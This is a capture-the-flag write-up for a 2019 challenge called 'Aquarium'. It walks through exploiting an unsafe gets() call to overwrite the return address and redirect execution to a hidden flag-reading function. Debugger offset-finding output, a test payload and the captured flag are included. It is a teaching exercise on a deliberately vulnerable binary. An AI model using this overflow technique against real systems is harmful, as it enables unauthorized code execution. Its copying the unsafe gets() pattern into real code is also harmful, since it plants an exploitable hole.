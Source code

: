 # Aquarium
### 50 points, 305 solves

## Description
Here's a nice little [program](https://files.actf.co/7cb4b22337f719a06b0a2e7a5748e548f536150535f5f71b4226ce0204e2c13c/aquarium) that helps you manage your [fish tank](https://files.actf.co/6c6ba382ab8501ce48efb4f3bc8ece68264f07d65c637e2dfc280327a07e1715/aquarium.c)
<br/>
Run it on the shell server at /problems/2019/aquarium/ or connect with nc shell.actf.co 19305. <br/>

The vulnerable code is here
```c
printf("Enter the name of your fish tank: ");
	char name[50];
	gets(name);
```

**gets()** has a vulnerability that read all of your input.<br/>
Thus, making your program stack filled with your buffer.<br/>

According to the source code, we have a function named flag which read the flag.txt<br/>
```
void flag() {
	system("/bin/cat flag.txt");
}
```

but flag function is not called, but we have gets() so we can overflow the program<br/>
and control the eip to jump into flag function <br/>

In order to get bufferoverflow offset, I generated payload with peda's patten_create.<br/>
```bash
gdb-peda$ pattern_create 200
```
Then, we input the payload while inputting the name of fish tank where gets() is used.<br/>
We got SIGSEV Fault. Sounds goood<br/>

We check our RSP value and use pattern_offset to get offset.
```bash
gdb-peda$ x/wx $rsp
0x7fffffffe058:	0x41417041
gdb-peda$ pattern_offset 0x41417041
1094807617 found at offset: 152
```
Offset is 152 <br/>
I test if it were correct with generating payload with python<br/>
```python
print "A"*152 + "B"*6
```
I got 
```bash
Stopped reason: SIGSEGV
0x0000424242424242 in create_aquarium ()
```
yay we have control over rip.<br/>
then we pack the address of flag function after the offset where rip is controlled.<br/>

```bash
team3443@actf:/problems/2019/aquarium$ python /tmp/exploit.py | ./aquarium
```

### Flag
>actf{overflowed_more_than_just_a_fish_tank}
